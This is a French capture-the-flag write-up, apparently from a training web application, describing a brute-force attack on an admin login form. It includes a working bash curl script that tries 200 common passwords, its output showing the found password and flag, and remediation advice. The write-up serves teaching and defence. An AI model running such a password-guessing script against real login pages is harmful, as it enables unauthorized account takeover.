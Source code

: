 
---

# Attaque par force brute pour découvrir un mot de passe

## Description de la faille

Une attaque par force brute a été utilisée pour découvrir le mot de passe de l'utilisateur `admin` en essayant les mots de passe les plus couramment utilisés. Une liste des 200 mots de passe les plus courants a été utilisée pour tenter de se connecter automatiquement jusqu'à ce que le mot de passe correct soit trouvé.

## Étapes pour découvrir la faille

1. **Obtenir la liste des mots de passe les plus courants** :
   - Téléchargez la liste des 200 mots de passe les plus utilisés à partir de [ce lien](https://s1.nordcdn.com/nord/misc/0.78.0/nordpass/top-200-2023/200-most-common-passwords-fr.pdf).
   - Sauvegardez ces mots de passe dans un fichier texte nommé `pswdlist.txt`.

   ```sh
   touch pswdlist.txt
   # Ajoutez manuellement les 200 mots de passe dans ce fichier
   ```

2. **Créer un script bash pour automatiser la tentative de connexion** :
   - Créez un script bash nommé `script.sh` avec le contenu suivant :

   ```bash
   #!/bin/bash

   pswds=($(cat pswdlist.txt))
   length=${#pswds[@]}
   current=0
   ip_address="192.168.1.10" # Remplace par ip-addr

   for pswd in "${pswds[@]}"
   do
       response=$(curl -s "http://$ip_address/?page=signin&username=admin&password=$pswd&Login=Login" | grep "flag")

       if [ ! -z "$response" ]; then
           echo "Password is : $pswd"
           echo $response
           break
       fi

       current=$((current+1))
       echo -ne "Current progress : $(((current * 100) / length))%\r"
   done
   ```

3. **Exécuter le script** :
   - Rendez le script exécutable et exécutez-le :

   ```sh
   chmod +x script.sh
   ./script.sh
   ```

4. **Trouver le mot de passe** :
   - Le script tente de se connecter en utilisant chaque mot de passe de la liste jusqu'à trouver le mot de passe correct. Lorsque le mot de passe est trouvé, le script affiche le mot de passe et le flag associé.
   - Dans cet exemple, le mot de passe trouvé est `shadow`.

   ```
   Password is : shadow
   flag: b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
   ```

## Flag

```
b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
```

## Comment remédier à cette faille

Pour remédier à cette faille de sécurité, il est crucial de mettre en place plusieurs mesures de protection contre les attaques par force brute :

1. **Limiter les tentatives de connexion** :
   - Implémentez une politique de verrouillage de compte après un certain nombre de tentatives de connexion échouées. Par exemple, après 5 tentatives échouées, verrouillez le compte pendant un certain temps ou jusqu'à ce qu'une action de l'utilisateur soit nécessaire (comme réinitialiser le mot de passe).

2. **Utiliser des captchas** :
   - Ajoutez des captchas à la page de connexion pour empêcher les scripts automatisés de tenter des connexions. Cela ajoutera une couche de sécurité supplémentaire en vérifiant que l'utilisateur est humain.

3. **Surveiller les tentatives de connexion** :
   - Mettez en place une surveillance et des alertes pour détecter les tentatives de connexion suspectes. Si de nombreuses tentatives de connexion échouées sont détectées, il peut s'agir d'une attaque par force brute en cours.

4. **Utiliser des mots de passe forts et uniques** :
   - Encouragez les utilisateurs à utiliser des mots de passe forts et uniques. Implémentez des règles de complexité des mots de passe (longueur minimale, utilisation de caractères spéciaux, etc.).

5. **Authentification multifactorielle (MFA)** :
   - Ajoutez une authentification multifactorielle (MFA) pour augmenter la sécurité des comptes. Même si un attaquant obtient le mot de passe, il aura besoin d'un deuxième facteur (comme un code envoyé sur le téléphone de l'utilisateur) pour se connecter.

6. **Hashing sécurisé des mots de passe** :
   - Assurez-vous que les mots de passe sont stockés de manière sécurisée en utilisant des algorithmes de hachage robustes (comme bcrypt, scrypt ou Argon2) avec un salt unique pour chaque utilisateur.

## Conclusion

Cette faille montre l'importance de sécuriser les pages de connexion contre les attaques par force brute. En mettant en œuvre les mesures de sécurité mentionnées ci-dessus, la sécurité des comptes utilisateurs peut être significativement améliorée, rendant les attaques par force brute beaucoup plus difficiles et moins efficaces.

---

